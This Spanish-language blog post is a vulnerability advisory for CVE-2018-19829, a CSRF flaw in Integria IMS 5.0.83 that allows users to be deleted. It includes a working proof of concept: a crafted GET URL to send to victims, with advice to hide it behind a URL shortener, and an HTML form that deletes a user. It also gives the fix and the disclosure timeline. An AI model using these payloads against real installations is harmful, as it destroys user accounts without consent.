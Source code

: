 +++
date = "2018-12-17"
title = "CVE-2018-19829 Integria IMS 5.0.83 - Cross-Site Request Forgery"
author = "Javier Olmedo"
toc = false
+++

Las vulnerabilidades [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_\(CSRF\)) encontradas en el software [Integria IMS 5.0.83](https://sourceforge.net/projects/integria/files/5.0.83/) han quedado solucionadas. Estas, **permitían a un usuario malintencionado borrar usuarios de la aplicación** a través de este ataque. La vulnerabilidad, ha sido asociada al [CVE-2018-19829](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-19829).

## CVE-2018-19829

### Integria IMS 5.0.83 - Cross-Site Request Forgery (CSRF)

[![/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_001.png](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_001.png)](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_001.png)

Integria IMS es un **software de help desk** sencillo, potente y fácil de usar. Dispone de inventario automatizado y controlado desde un solo interfaz. Agiliza los procesos reduciendo los tiempos y costes de gestión en sus proyectos. Gracias a sus informes personalizados estará informado y podrá ver fácilmente la gestión y calidad del servicio dado en tiempo real.

- 📅 Vulnerabilidad descubierta por [Javier Olmedo](https://twitter.com/JJavierOlmedo) el **08/11/2018**
- 💣 Publicada el **17/12/2018**
- 🐛 [CVE-2018-19829](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19829)
- 🔗 Link del software [Integria IMS](https://sourceforge.net/projects/integria/files/5.0.83/)
- 🐞 Versión vulnerable = **5.0.83 y anteriores**
- ✔️ Solución: **actualizar** a la versión [5.0.84](https://sourceforge.net/projects/integria/files/5.0.84/)

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🟠 MEDIA 🟠

A través de las vulnerabilidades [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_\(CSRF\)), un atacante **podría aprovecharse de la confianza que tiene la aplicación sobre los usuarios legítimos** para crear un enlace o formulario malicioso que será ejecutado a través de estos.

## Parámetros / Recursos vulnerables

Durante la auditoria, se observó que el formulario encargado de borrar los usuarios **carecía de token anti-CSRF.**

[![/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_002.png](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_002.png)](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_002.png)

Ejemplo de petición POST para borrar un usuario

Esto, permitiría a un atacante **crear un enlace malicioso** modificando el valor del parámetro `id` para realizar acciones de eliminación de usuarios sobre la aplicación, además, también se comprobó que **las peticiones POST podían ser cambiadas al método GET.**

[![/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_003.gif](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_003.gif)](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_003.gif)

## Prueba de concepto (PoC)

En la siguiente prueba de concepto se ha dividido la pantalla en dos partes, en la parte izquierda se encontraría un usuario en el panel de administración, mientras que en la parte derecha, un atacante genera un botón malicioso previamente configurado para realizar la acción de eliminación de usuarios.

### NOTA

> Se ha utilizado un formulario para la explotación de la vulnerabilidad, pero en un escenario real, a un atacante le bastaría con generar el enlace y acortar la URL ([Google URL Shortener](https://goo.gl/)) para ofuscar la acción e intentar explotar la vulnerabilidad con éxito, ya que las peticiones pueden ser cambiadas al método **GET,** por esta razón se explican dos maneras de explotarla.

### Metodo 1

Acortar la siguiente URL y enviarlo a la víctima.

**URL:** `http://localhost/integria/ajax.php?page=include/ajax/delete_item_general&delete_item=1&name=delete_user&id=[ID]`

## Metodo 2

Generar un botón malicioso

[![/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_004.gif](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_004.gif)](/images/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery/cve-2018-19829-integria-ims-5-0-83-cross-site-request-forgery_004.gif)

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://localhost/integria/index.php">
   <input type="hidden" name="sec" value="users" />
   <input type="hidden" name="sec2" value="godmode&#47;usuarios&#47;lista&#95;usuarios" />
   <input type="hidden" name="borrar&#95;usuario" value="jolmedo" />
   <input type="submit" value="Eliminar usuario jolmedo" />
  </form>
 </body>
</html>
```

## Timeline

- **08/11/2018** Descubrimiento
- **08/11/2018** El desarrollador conoce la vulnerabilidad
- **01/12/2018** Solicitud CVE
- **03/12/2018** Asignación de CVE-2018-19829 por MITRE
- **10/12/2018** Parcheada
- **14/12/2018** Publicación vulnerabilidad

## Referencias

- CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19829](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19829)

Un saludo a todos!! 👋